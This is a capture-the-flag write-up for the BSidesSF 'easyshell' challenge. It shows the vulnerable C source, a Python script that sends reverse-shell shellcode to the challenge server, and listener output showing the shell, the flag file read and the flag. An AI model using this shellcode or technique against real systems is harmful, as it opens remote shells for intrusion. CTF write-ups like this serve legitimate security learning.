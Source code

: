 # easyshell

## Challenge

> The server will run any code you send it. Easy peaasy!

> The flag is in /home/ctf/flag.txt

> nc easyshell-f7113918.ctf.bsidessf.net 5252

> [easyshell.zip](easyshell.zip)

## Solution
Upon examining the source code of the easyshell program it becomes clear that whatever is sent to the program will be read into a buffer and executed using the asm() C/C++ function used to embed and execute assembler instructions.

```
int main(int argc, char *argv[])
{
  uint8_t *buffer = mmap(NULL, LENGTH, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);
  ssize_t len;

  alarm(10);

  disable_buffering(stdout);
  disable_buffering(stderr);

  printf("Send me stuff!!\n");
  len = read(0, buffer, LENGTH);

  if(len < 0) {
    printf("Error reading!\n");
    exit(1);
  }

  asm("call *%0\n" : :"r"(buffer));

  return 0;
}
```

After experimenting with different kinds of shellcode I decided that a reverse connection was the appropriate approach so I wrote a small python script to send the shellcode. (Shellcode taken from: http://shell-storm.org/shellcode/files/shellcode-833.php)

```
#!/usr/bin/env python

import socket

remote_host = 'easyshell-f7113918.ctf.bsidessf.net'
remote_port = 5252

local_host = "\xc6\xc6\xc6\xc6" # IP
local_port = "\xd9\x03"         # 55555 (Port)

shellcode = "\x68" + local_host + "\x5e\x66\x68" + local_port + "\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xce"

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    client.connect((remote_host,remote_port))

    data = client.recv(1024)
    print data
    
    client.send(shellcode)
    print "[*] Shellcode sent."

except socket.error, e:
    print e 
```

I ran a netcat listener and upon receiving a connection it succesfully spawned a shell and the flag could be read.
```
Listening on [0.0.0.0] (family 0, port 55555)
Connection from [104.196.247.127] port 55555 [tcp/*] accepted (family 2, sport 33950)
cat /home/ctf/flag.txt
FLAG:c832b461f8772b49f45e6c3906645adb
```

